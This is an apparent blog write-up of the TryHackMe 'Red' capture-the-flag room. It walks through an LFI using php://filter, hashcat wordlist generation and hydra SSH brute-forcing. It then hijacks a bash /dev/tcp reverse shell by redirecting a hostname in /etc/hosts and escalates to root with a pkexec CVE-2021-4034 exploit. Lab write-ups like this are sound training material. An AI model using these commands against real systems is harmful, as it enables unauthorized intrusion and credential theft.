 ```yaml
---
title: "THM - Red writeup"
date: 2024-05-02
image: /assets/images/red/red_banner.png
tags: [tryhackme, writeups, linux, nmap, path_traversal, hashcat, hydra, CVE-2021-4034]
categories: [TryHackMe, Writeup]
redirect_from: /2024/05/02/RED/
---
```


Hi,

been a long time since my last post. I have done some easy boxes on [TryHackMe](http://tryhackme.com).
And this is the writeup for one of those boxes I have done: [Red](https://tryhackme.com/r/room/redisl33t)

## Information Gathering

As always, lets start with nmap. I have my routine in using nmap:
First I set the current target ip into a variable

```bash
TARGET="TARGET_IP"
# or for fish shell, which I have choose as my default shell
set TARGET TARGET_IP
```

With this, I always use a default port scan followed by a service scan:

```bash
nmap -Pn $TARGET -oN ports && nmap -Pn -sC -sV -p $(grep '.*(?=\/tcp)' ports | tr '\n' ',') $TARGET -oN services
```

I only use `-p-` when I'm stuck and desperate.

This scan reveals only two open ports:

- 80 is running a webserver
- 22 running ssh

## Website

![atlas_website.png](/assets/images/red/atlas_website.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

As this is a CTF, I searched for hidden hints on the website, but couldn't find any. But one thing got my attention,
the url provides a variable:

```
?page=
```

So I tried some LFI techniques and run [feroxbuster](https://github.com/epi052/feroxbuster) but sadly there where no useful outputs.

Then I tried [php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter) and got some useful outputs.

```
curl http://$TARGET:80/index.php?page=php://filter/resource=/etc/passwd
```

![curl_passwd.png](/assets/images/red/curl_passwd.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now there is our way in!

## First flag

I tried nearly everything, to get more information or even a real foothold without luck.

```
/home/blue/.ssh/
/home/red/.ssh/
/etc/crontab
...
```

But then I found something on blue's home directory:

![bash_history.png](/assets/images/red/bash_history.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Sadly the passlist.txt file was deleted, but the way to build it is well documentated and the .reminder file still persists and is readable.

Now to build our wordlist (yes I tried it with rockyou.txt before, its a waste of time) we have to do the same thing, as red obviously did.

> Download the ruleset for hashcat if you miss it on your system: [best64.rule](https://github.com/CarlosLannister/OwadeReborn/blob/master/owade/fileAnalyze/hashcatLib/best64.rule)
{: .prompt-info}

Now run the same command locally:

```bash
hashcat --stdout .reminder -r ./best64.rule > passlist.txt
```

With the wordlist used to set the password of blue, we can now try to crack it against ssh.

```bash
hydra -I -l blue -P ./passlist.txt ssh://$TARGET
```

It will not take for long to find the password of the user blue:

![crack_blue.png](/assets/images/red/crack_blue.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now log in via ssh and print out the first flag, which lays in /home/blue directory.

## Second flag

While I was searching for an opportunity for lateral movement, my session disconnected...

![suprise.png](/assets/images/red/suprise.png){: w='1212' h='668' }

And there are print outs of the user red. (simulated, for sure)

I checked for SUID, cron jobs and misconfigurations in files, but nothing useful there. And while looking around, "red" kept kicking me out of the shell. Everytime I was kicked out, I had to bruteforce the password of user blue, because it had been changed. And yeah, I already tried to change the password to avoid being kicked out:

![pwchange.png](/assets/images/red/pwchange.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Next I looked into the running processes, and couldn't find any suspicious process running by root, but one running by red:

```
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

Obviously a reverse shell to a specific fqdn. Checking the `/etc/hosts` file and it contains the fqdn. I couldn't figure out where the command lays on the system. Even if I locate the command's executable, blue may not have the permission to read or execute the command.

After a while, I realized something! Every time when "red" writes a message to us, one of the two running reverse shell instances will be replaced from a new instance of the same reverse shell command:

![cronjob.png](/assets/images/red/cronjob.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

This means, that there is some cronjob running and it calls the command. Because there are two instances of the reverse shell command, we may have luck and the second command could be used to get a shell as user "red". In most modern system, if the fqdn resolves to multiple ips and the first ip is busy with an instance of the command, subsequent instances of the same command may attempt to connect to the other ip addresses associated with the fqdn.

Ok, fine. I just need to add my ip into the `/etc/hosts` file then. But there is one problem with that, the hosts file can't be written with texteditor like nano or vi. By using `lsattr` it can be seen that the file has `append-only` permission. So I had to use some sort of redirection.

```bash
echo "<MY-IP> redrules.thm" >> /etc/hosts
```

Running a netcat listener on port 9001, I was able to get a shell as user "red".

## Root flag

The root flag is an easy one, because on user red's home, there is a `.git` directory where an executable called `pkexec` lays.

![pkexecVersion.png](/assets/images/red/pkexecVersion.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

By looking up the version of pkexec on google, there can be seen a vulnerability: CVE-2021-4034

Most of the PoC's are written in C, but I searched for a python version of the exploit, to avoid the building process, and found one on github: [joeammond's CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)

For this PoC to work, I had to change the last line, which is referring to the pkexec location. After that, just upload it to the target with a python http server open.

```bash
python -m http.server 9090
```

![rootID.png](/assets/images/red/rootID.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now as root the root flag can be printed out easely...

Good luck :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }

